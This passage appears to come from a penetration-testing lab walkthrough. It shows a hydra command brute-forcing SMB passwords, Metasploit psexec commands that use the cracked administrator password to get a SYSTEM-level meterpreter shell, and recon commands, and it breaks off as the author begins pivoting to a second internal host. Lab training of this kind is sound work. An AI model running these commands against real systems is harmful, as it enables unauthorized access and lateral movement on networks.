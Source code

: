 Now, let's run the hydra tool for brute-forcing the SMB protocol to find the valid password of the provided users.

```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip_local smb
-L
#: List of users

-P
#: Password list

target_ip_local smb
#: Target Address and Target Protocol

```

### Now, we can use the Metasploit framework and run the

psexec exploit module to gain the meterpreter shell using the administrator user valid password.

```bash
# Note: If the exploit won't give you a meterpreter session. Try again!

msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS target_ip_local
set SMBUser administrator
set SMBPass password1
exploit
```

Success!. We have received a meterpreter session.

### Now, we will discover target machine information, e.g., current user, system information, arch, etc.

```bash
getuid
sysinfo
```

We notice that target is running a windows server, and we have received a meterpreter session with "SYSTEM" (or "NT Authority") privileges on the machine.

### Let's check if we can access target_ip from the compromised host.

Remember, when we did ping to both the targets and discovered IP addresses of these target machines:

1. target_ip.local: 10.0.17.62

2. target_ip : 10.0.22.69

Now, let's ping to the 10.0.22.69 and verify that it is reachable from the second machine.
